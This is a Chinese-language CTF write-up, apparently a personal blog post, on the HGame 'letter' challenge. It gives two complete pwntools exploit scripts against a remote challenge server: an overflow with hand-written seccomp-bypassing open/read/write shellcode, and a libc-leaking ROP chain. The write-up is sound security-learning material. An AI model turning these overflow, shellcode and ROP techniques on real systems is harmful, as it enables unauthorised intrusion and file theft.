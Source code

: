 ```yaml
---
title: Shellcode
categories: 
    - Stack
    - Shellcode
---
```

# Shellcode
<!--more-->
## HGame
### letter

![20210307191837](https://raw.githubusercontent.com/YTrick/image/branch/image/20210307191837.png)

程序禁用了一些系统调用，导致无法直接用 shellcode 直接getshell ，即 asm(shellcraft.sh())，所以得手写汇编 shellcode；因为程序是64位的，所以要写 context.arch = 'amd64'


![20210307194929](https://raw.githubusercontent.com/YTrick/image/branch/image/20210307194929.png)

负数溢出，但是没搞明白的是为什么是 -268376833 。。。。当事人非常郁闷

exp:

```py
from pwn import *
context.arch = 'amd64'
context.log_level='debug'
#r = process('./letter')
r=remote('182.92.108.71',31305)
r.sendlineafter('?','-268376833')
#r.sendline('a'*0x18+p64(0x60105c)+asm(shellcraft.sh()))
shellcode = '''
mov rax, 0x101010101010101
push rax
mov rax, 0x101010101010101 ^ 0x67616c66
xor [rsp], rax
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall
xor rax, rax
mov rdi, 3
mov rsi, 0x601070
mov rdx, 0x100
syscall
mov rax, 1
mov rdi, 1
mov rsi, 0x601070
mov rdx,0x100
syscall
'''
r.sendline('a'*0x18+p64(0x60108C)+asm(shellcode))
r.interactive()

```


发现其他师傅有另外的解法

exp：

```py
from pwn import*
context.log_level = 'debug'
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF('./letter')
context.arch = elf.arch
def pr(a,addr):
	log.success(a+'====>'+hex(addr))
write_plt = elf.plt['write']
write_got = elf.got['write']
read_got = elf.got['read']
prdi = 0x400AA3
p6 = 0x400A9A
mmmc = 0x400A80
vuln = 0x400958
p = remote('182.92.108.71',31305)
#p = process('./letter')
#gdb.attach(p,'b *0x4009BB')
p.sendafter('?\n',str(0xffffffff).ljust(0x10,'\x00'))
payload = 'a'*0x18+p64(p6)+p64(0)+p64(1)+p64(write_got)+p64(1)+p64(write_got)+p64(8)
payload += p64(mmmc)+'a'*16+p64(0x00601000+0x500+0x10)+'a'*32+p64(0x4009DD)
p.send(payload)
p.recvuntil('.\n')
write_leak = u64(p.recv(8))
libcbase = write_leak - libc.sym['write']
open_addr = libcbase + libc.sym['open']
pr('libcbase',libcbase)

payload = 'a'*0x18+p64(0x00601000+0x500+0x10+0x10)+asm(shellcraft.open('flag'))
payload += asm(shellcraft.read(3,0x00601000+0x500+0x100,100))
payload += asm(shellcraft.write(1,0x00601000+0x500+0x100,100))
p.sendline(payload)

p.interactive()
```


搞不懂控制 rbp 为 0x00601000+0x500+0x10 是为什么。。。。


